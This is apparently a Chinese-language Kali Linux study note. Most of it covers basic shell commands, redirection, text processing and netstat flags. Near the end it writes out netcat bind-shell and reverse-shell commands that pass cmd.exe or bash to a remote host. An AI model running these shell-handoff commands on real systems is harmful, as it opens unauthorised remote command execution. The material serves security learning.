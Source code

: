 # kali-linux system learnning

echo $USER 输出当前用户名

echo $PWD 输出当前路径

echo $HOME 家目录

export b=127.0.0.1  设置一个变量，并赋值

ping -c 2 $b 使用ping命令发送2次数据包到该变量值

echo "$$" 使用两个符号来查看当前shell实例进程的id

var="zhangsan" 使用var命令创建一个对象

echo $var 输出当前变量

history 查看当前命令历史 

!1	命令历史当中的第一条命令会被执行

!! 执行上一条命令

ls 列出当前目录下文件

echo "abc" > redirection_test.txt 将abc内容输出到一个文件中,注意，使用>会进行覆盖写入，追加写入可以使用>>

wc -m < redirection_text.txt 记录当前文本中的字符数

echo "lalala a b c d header" | sed 's/header/head/' 使用sed替换文本内的某一段内容

cut -d ":"  -f 1 /etc/passwd 取出当前文本内以冒号分隔的第一串字符

echo "hello::there::friend" | awk -F "::" '{print $1,$3}' 以冒号分隔并取出第一个字符串以及第三个字符串

netstat用来查看系统当前系统网络状态信息，包括端口，连接情况等，常用方式如下：

```
netstat -atunlp,各参数含义如下:

-t : 指明显示TCP端口

-u : 指明显示UDP端口

-l : 仅显示监听套接字(LISTEN状态的套接字)

-p : 显示进程标识符和程序名称，每一个套接字/端口都属于一个程序

-n : 不进行DNS解析

-a 显示所有连接的端口
```

正向连接与反向连接
a主机为windows
b主机为linux
正向连接a：nc -nv 192.1.1.2 8888 -e cmd.exe 主机为windows则需要使用-e参数来进行程序重定向
b:nc -lp 8888 在b主机上发起一个监听端口等待a主机的连接  ----监听机获得连接机的cmd执行权限
反向连接a:nc -nv 192.168.1.2 8888 
b:nc -lp 8888 -c bash 使用-c参数将bash丢给连接方  -----a主机获得b主机的shell执行

```

host -t ns megacorpoe.com 其中-t后面的参数可以修改为任意类型参数，比如mx，

```

